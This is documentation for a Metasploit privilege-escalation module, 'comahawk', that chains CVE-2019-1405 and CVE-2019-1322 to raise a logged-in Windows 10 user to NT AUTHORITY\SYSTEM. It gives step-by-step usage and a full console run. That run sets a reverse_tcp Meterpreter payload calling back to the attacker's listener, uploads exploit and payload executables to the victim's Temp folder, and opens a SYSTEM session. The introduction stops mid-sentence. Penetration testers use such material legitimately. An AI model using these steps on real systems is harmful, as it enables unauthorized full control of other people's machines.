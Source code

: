 ## Introduction

This leverages two vulnerabilities to move from an authenticated user of
any level to NT AUTHORITY\LOCAL SERVICE and then from NT AUTHORITY\LOCAL SERVICE
to NT AUTHORITY\SYSTEM.
The first (CVE-2019-1405) uses the UPnP Device Host Service to elevate to
NT AUTHORITY\LOCAL SERVICE
The second (CVE-2019-1322) leverages the Update Orchestrator Service to
elevate from NT AUTHORITY\LOCAL SERVICE to NT AUTHORITY\SYSTEM.

The exploit works by creating a new service, so the exploit may take
up to minute on test systems, and may take longer in the wild.  Adjusting
the 

## Usage

1. Create a session on the target system under the context of an authenticated user.
2. Begin interacting with the module: `use exploit/windows/local/comahawk`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenario

### Windows 10 (10.0 Build 17134) x64

```
[*] Meterpreter session 1 opened (192.168.135.168:5555 -> 192.168.132.125:49674) at 2019-12-11 18:33:09 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/comahawk 
msf5 exploit(windows/local/comahawk) > set versbose true
versbose => true
msf5 exploit(windows/local/comahawk) > set session 1
session => 1
msf5 exploit(windows/local/comahawk) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/comahawk) > set lhost 192.168.135.168
lhost => 192.168.135.168
msf5 exploit(windows/local/comahawk) > show options

Module options (exploit/windows/local/comahawk):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PATH                              no        Path to write binaries if (%TEMP% by default).
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host if (%RAND%.exe by default).
   SESSION          1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/comahawk) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Attempting to PrivEsc on DESKTOP-D1E425Q via session ID: 1
[*] Exploit uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\TcpHnwmv.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-D1E425Q to C:\Users\msfuser\AppData\Local\Temp\EubQLoJJbPMX.exe
[*] It may take a moment after the session is established for the exploit to exit safely.
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49679) at 2019-12-11 18:35:35 -0600

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
